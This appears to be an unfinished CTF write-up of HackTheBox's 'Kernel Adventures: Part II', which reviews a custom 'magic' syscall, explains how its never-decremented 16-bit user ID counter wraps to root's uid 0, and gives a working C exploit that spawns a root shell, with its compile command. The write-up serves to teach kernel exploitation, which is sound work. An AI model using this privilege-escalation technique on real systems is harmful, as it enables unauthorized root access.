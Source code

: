 ```yaml
---
title: Intro To Kernel Exploitation
description: Learning kernel exploitation via ctf challenges.
date: 2024-04-08 02:45:01-0700
image: https://i.pinimg.com/originals/d8/73/c9/d873c94e242bafe6bbcfa83cde3b8b42.jpg
categories:
    - HackTheBox
tags:
    - pwn
    - htb
    - medium
---
```


## Setup

WORK IN PROGRESS...

This is the solution for HTB's `Kernel Adventures: Part II`, and in the process, we can learn and get an introduction to kernel exploitation.
We will solve it manually first, then build a fuzzer to locate the vulnerability.
We will learn how to debug at the kernel level.

After you download the challenge, just follow the instructions in the README to get the required version of the linux kernel installed so we can take a look in our code editor.
However, you may get an error during the `git apply` command.
To resolve these, you first need to run `git checkout ff1ffd71d5f0612cf194f5705c671d6b64bf5f91` to revert the repo to the commit in which the vulnerability was introduced.
Now we have the code for the vulnerable kernel, and the author provided the image meant for the challenge.

## Goals

So I will take 2 approaches here.
The first is to do a code review to find the vuln by hand (eyes).
Then I want to build a fuzzer to automate the finding.

## Finding Vulnerability

So my first approach here is to look at the `patch.diff` file to see what was changed.
There was a folder `magic/` that was added.
Also, there is a new syscall `magic` added to `arch/x86/entry/syscalls/syscall_64.tbl`
However, the "meat" of the challenge is in `magic/magic.c`, which fleshes out the syscall.

Lets walkthrough what the new syscall does.
First it will initialize itself via the `do_init()` function, but only if the `initialized` value is not 0.

```c
void do_init() {
    char username[64] = "root";
    char password[64] = "password";
    struct MagicUser* root;

    spin_lock(&magic_lock);
    root = kzalloc(sizeof(struct MagicUser), GFP_KERNEL);
    root->uid.val = 0;
    memcpy(root->username, username, sizeof(username));
    memcpy(root->password, password, sizeof(password));
    root->children = kzalloc(sizeof(struct MagicUser*) * CHILDLIST_SIZE, GFP_KERNEL);
    magic_users[0] = root;
    nextId = 1;
    initialized = 1;
    spin_unlock(&magic_lock);
}
```

This function sets the default username and password to `root:password`.
It also defines a `MagicUser*` called root.
Then `kzalloc` is called and the resulting pointer is assigned to `root`.
From my understanding, `kzalloc` will allocate a chunk and initialize its memory to zero.
An important thing to note here is that this allocation will need to be freed at some point.
Anyways, this function pretty much sets the first user to be root, then creates an allocation for the next user, who will be the child of this root user.

Now lets look at the individual actions we can get this syscall to perform.
Lets start with adding a user with `long do_add(char* username, char* password)`.
First it checks if the user that will be added exists.
This is done by just iterating over the list of users, and checking the username against the supplied username.
Then an empty entry in the user list is found, which is where the new user will be added.
This works similar to the find function, where the user list is iterated over until a null entry is found, and that index is returned.
Then a search for the current user is conducted, but this time by uuid.
Again, this is just a simple for loop that compares uid, nothing special.
Then it will locate an empty slot in the current users child list.
Then another call to `kzalloc` for the new user.
And the next user is given the `nextId` value, which will be +1 from the previous.
We should note, that in no other function is there something to decrement the `nextId` value, meaning it will always increase.
Maybe we could just create new users until we overflow the `uid` value to be 0 again?
Seems possible, cuz `nextId` is an unsigned short (2 bytes), so thats a total of `0xFFFF` values.
Once we obtain that UUID, it would seem that some other values are changed, and then we obtain the privileges of the user with that UUID.
So if we get UUID 0, then we get the privileges of the root user.
Here is my exploit.
After compiling, I gzipped it, then copied it over to the victim machine with base64 encoding.

```c
#include <sys/syscall.h>
#include <stdio.h>
#include <unistd.h>

#define MAGIC_SYS 449

int main() {
    
    long uuid = 1;
    for (int i = 0; i < 0xFFFFFFFF; i++) {
        // Create the user
        uuid = syscall(MAGIC_SYS, 0, "bob", "abc123");
        if (uuid == 0) {
            syscall(MAGIC_SYS, 3, "bob", "abc123");
            char *shell = "/bin/sh";
            char *args[] = {shell, NULL};
            execve(shell, args, NULL);
            return 0;
        }
        // Delete the user
        syscall(MAGIC_SYS, 2, "bob", "abc123");
    }
    return 0;
}
```

```bash
musl-gcc -static -march=x86-64 -Os expl.c -o expl
```